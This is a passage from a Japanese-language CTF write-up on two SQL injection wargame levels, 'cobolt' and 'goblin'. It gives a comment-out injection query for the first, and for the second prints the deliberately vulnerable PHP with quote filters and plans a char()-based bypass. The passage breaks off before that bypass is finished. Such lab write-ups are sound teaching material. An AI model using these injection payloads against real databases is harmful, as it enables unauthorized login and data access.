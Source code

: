 ``` php
?>
```
### 考察
idがadminになる条件式を作る．
``` php
  if($result['id'] == 'admin') solve("cobolt");
```
### 回答
idをadminにして後ろはコメントアウト
``` sql
select id from prob_cobolt where id='admin' #' and pw=md5('')
```

## goblin

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

### 考察
idをadminにしたいところだが，
``` php
if($result['id'] == 'admin') solve("goblin");
```
guestに固定されている．
``` php
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
```
no = 1 or id = 'admin'をやろうとしたが，シングルクォートがエスケープされている．
char関数を使うとスマートかも．

| 文字 | ascii |
| -------- | -------- |
| 'a'     | 97     |
| 'd'     | 100     |
| 'm'     | 109     |
| 'i'     | 105     |
| 'n'     | 110     |

